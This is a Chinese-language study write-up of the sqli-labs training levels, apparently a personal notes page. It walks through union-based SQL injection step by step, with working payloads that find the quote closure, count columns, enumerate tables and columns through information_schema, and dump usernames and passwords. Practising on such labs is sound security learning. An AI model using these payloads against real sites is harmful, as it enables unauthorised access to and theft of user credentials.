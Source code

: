 # Basic Injections

## Less-1

先回顾一下基础内容，get传参1'：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240321163259.png)

根据报错可知是单引号闭合。

接着手工查询有多少列：?id=1' order by 3--+

4的时候报错，说明有3列。

复习一下联合注入：`UNION SELECT`是SQL的一部分，用于合并两个或多个`SELECT`语句的结果集，返回一个合并后的结果集。每个`SELECT`语句必须拥有相同数量的列，列的数据类型也需兼容，因为`UNION`操作是按列顺序合并它们的。默认情况下，`UNION`会移除重复的行。如果需要包含所有重复行，可以使用`UNION ALL`。这种操作常用于从不同的表中检索数据，然后将结果集合并为单一结果。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240321163916.png)

![image-20240321164017381](C:\Users\86158\AppData\Roaming\Typora\typora-user-images\image-20240321164017381.png)

?id=0%27union%20select%201,database(),3--+得到数据库为security。

爆表名：?id=0'union select 1,table_name,3 from information_schema.tables where table_schema='security'--+

`information_schema.tables`是一个特殊的数据库，提供了关于所有其他数据库中表的信息。通过从这个表中选择`table_name`列，可以列出特定数据库（在此例中为`security`）的所有表名。

加入limit。`LIMIT`子句用于指定从结果集中返回的记录的数量，其中第一个数字表示起始位置（从0开始），第二个数字表示记录的数量。因此，`LIMIT 0,0`意味着从第一个记录开始返回0条记录，实际上不会检索出任何数据。

?id=0'union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1--+

通过limit 0,1  limit1,1...可以得到所有的表：emails,referers,uagents,users

同理爆列名：?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+

得到列名id,username,password

最后爆数据：?id=-1' union select 1,group_concat(username,password),3 from uses --+

## Less-2

数字型，无闭合方式

## Less-3

')

## Less-4
